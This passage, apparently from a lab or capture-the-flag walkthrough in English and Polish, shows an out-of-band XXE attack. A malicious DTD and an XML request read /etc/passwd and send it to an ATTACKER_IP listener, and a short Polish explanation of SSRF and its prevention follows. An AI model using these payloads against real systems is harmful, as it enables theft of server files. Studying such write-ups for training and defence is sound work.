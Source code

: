 ```
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
10.10.35.31 - - [03/Jan/2025 12:02:47] "GET / HTTP/1.0" 200 -
```
Create a file `sample.dtd` with payload:
```dtd
<!ENTITY % cmd SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oobxxe "<!ENTITY exfil SYSTEM 'http://ATTACKER_IP:1337/?data=%cmd;'>">
%oobxxe;
```
This payload below will exfiltrate the contents of /etc/passwd and send the response back to the attacker-controlled server:

Change the payload in the burp suite repeater to:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE upload SYSTEM "http://ATTACKER_IP:1337/sample.dtd">
<upload>
    <file>&exfil;</file>
</upload>
```

![img_3.png](img/img_3.png)

In the terminal now you will receive two request:
The first is the request for the sample.dtd file, and the second is the request sent by the vulnerable application containing the encoded /etc/passwd.

### Server-Side Request Forgery (SSRF)
SSRF (Server-Side Request Forgery) to podatność, która pozwala atakującemu na manipulowanie serwerem, aby ten wykonywał żądania
HTTP do zasobów, do których zwykle nie miałby dostępu. W wyniku takiego ataku serwer może uzyskać dostęp do wewnętrznych systemów sieciowych,
baz danych czy innych usług, które są chronione przed bezpośrednim dostępem z zewnątrz. Atakujący może wykorzystać SSRF do odczytu
poufnych informacji, takich jak dane konfiguracyjne, lub do przeprowadzenia ataków na inne systemy w infrastrukturze. Aby zapobiec tego typu atakom,
ważne jest, aby ograniczyć możliwości serwera do wykonywania zewnętrznych żądań oraz weryfikować i filtrować dane wejściowe,
szczególnie te, które są używane do tworzenia zapytań HTTP. SSRF stanowi poważne zagrożenie, zwłaszcza w środowiskach, gdzie serwery mają szeroki
dostęp do zasobów wewnętrznych.
